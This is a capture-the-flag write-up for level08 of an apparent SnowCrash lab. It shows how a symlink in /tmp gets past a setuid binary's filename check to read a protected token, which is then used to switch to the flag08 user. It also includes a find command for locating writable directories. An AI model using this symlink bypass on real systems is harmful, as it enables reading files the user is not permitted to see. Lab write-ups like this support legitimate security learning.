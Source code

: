 ### binary

a binary named level08 and file named token are present in the home
both files are owned by flag08 but the binary is executable by level08
-> it takes a file as parameter and echo the contents of that file. It refuses a file named 'token'
we can assume it can read the content of the token file but reject its name -> rename token file without permission to read
the size of the token file indicates that it can be the flag for level08

-> read it with symbolic links 


```ln -s ~/token /tmp/file```
```./level08 /tmp/file``` gives the token to authentify to flag08

```su level09``` doesn't work with this token => ```su flag08``` -> ```getflag``` gives the flag for this level















other TIPS :
find a folder that can be readable and writable by user :
```find / -writable 2>/dev/null```



### see extended permissions of a file
```getfacl level08 ```
file: level08
owner: flag08
group: level08
flags: ss-
user::rwx
group::---
group:level08:r-x
group:flag08:r-x
mask::r-x
other::---

we can see that the binary is setiud and setgid :
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08

-> it executes with superuser permissions

more info on the subject : https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/